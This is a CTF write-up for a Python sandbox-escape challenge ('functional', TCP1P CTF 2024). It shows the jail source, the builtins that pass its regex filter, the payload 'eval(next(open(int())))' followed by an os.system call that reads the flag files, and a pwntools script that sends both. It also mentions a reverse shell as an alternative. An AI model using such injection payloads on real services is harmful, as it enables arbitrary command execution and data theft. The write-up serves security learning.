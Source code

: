 # TCP1P CTF 2024 functional

```python
#!/usr/bin/env python3
import regex
import glob
import sys

exception_groups = (Warning, SystemExit, ConnectionResetError, ConnectionAbortedError, ConnectionRefusedError, KeyboardInterrupt, ConnectionError, ResourceWarning, TypeError, BytesWarning, OverflowError, TabError, InterruptedError, RuntimeError, TimeoutError, FileNotFoundError, UserWarning, GeneratorExit, PermissionError, KeyError, AssertionError, UnicodeDecodeError, IsADirectoryError, ZeroDivisionError, FileExistsError, BlockingIOError, SystemError, OSError, EOFError, EncodingWarning, StopIteration, UnicodeWarning, ImportWarning, SyntaxWarning, LookupError, AttributeError, ImportError, ArithmeticError, EnvironmentError, ChildProcessError, UnicodeTranslateError, UnicodeEncodeError, RecursionError, StopAsyncIteration, RuntimeWarning, IndentationError, ValueError, ModuleNotFoundError, DeprecationWarning, BufferError, FutureWarning, ReferenceError, MemoryError, UnicodeError, PendingDeprecationWarning, NotADirectoryError, IOError, FloatingPointError, ProcessLookupError, NameError, NotImplementedError, UnboundLocalError, BrokenPipeError, IndexError)
secret_of_trades = glob.glob('flags/*')

re_pattern = regex.compile(r'[ad-z]+\(((?R)|)\)')
user_input = input('>>> ')

sys.stderr = sys.stdout
sys.stdout = None
sys.stdin = None

if re_pattern.fullmatch(user_input):
    try:
        exec(user_input)
    except exception_groups as e:
        pass
```

The regex `r'[ad-z]+\(((?R)|)\)'` matches:

1. A function name matching `[ad-z]+`
2. Calling the function with no arguments, the argument matches the regex `r'[ad-z]+\(((?R)|)\)'` itself

Therefore, the requirements are: Call functions with zero argument, or return value of another function, and all function names should match `[ad-z]+`.

Print all the builtin functions that are allowed:

```python
import regex
re_pattern = regex.compile(r'[ad-z]+')
print([x for x in __builtins__.__dict__ if re_pattern.fullmatch(x)])
# prints ['all', 'any', 'delattr', 'dir', 'divmod', 'eval', 'format', 'getattr', 'hasattr', 'hash', 'hex', 'id', 'input', 'iter', 'aiter', 'len', 'max', 'min', 'next', 'anext', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'memoryview', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'range', 'reversed', 'set', 'str', 'super', 'tuple', 'type', 'zip', 'open', 'quit', 'exit', 'help']
```

Therefore, we need to use these functions to attack. Inspired by @hmmm's writeup on Discord:

```python
eval(next(open(int())))
exec('import sys,os;sys.stdout=open(1,"w");os.system("cat flags/*")')
```

The attack steps:

1. `open(int())` opens fd 0, which is stdin
2. `next(...)` reads one line from stdin
3. `eval(...)` evals the line

Then, we can freely send code to run. Initially, I tried `os.system("sh")`, but it fails due to `eval(next(open(int())))` opening fd 0 and closing it when the file object freed. In addition, `os.system` is not affected by the chage of `sys.std{in,out,err}`: in fact, the changes to them does not affect the underlying fd, but only affects python code that use them for I/O. And we can replace `import sys` with `__import__('sys')` for it to become an expression to work in `eval` directly.

So the attack script can be simplified:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "functional.py"])
p.recvuntil(b">>> ")
p.sendline("eval(next(open(int())))".encode())
p.sendline("__import__('os').system('cat flags/*')".encode())
p.interactive()
```

Alternatively, we can use reverse shell to get shell.
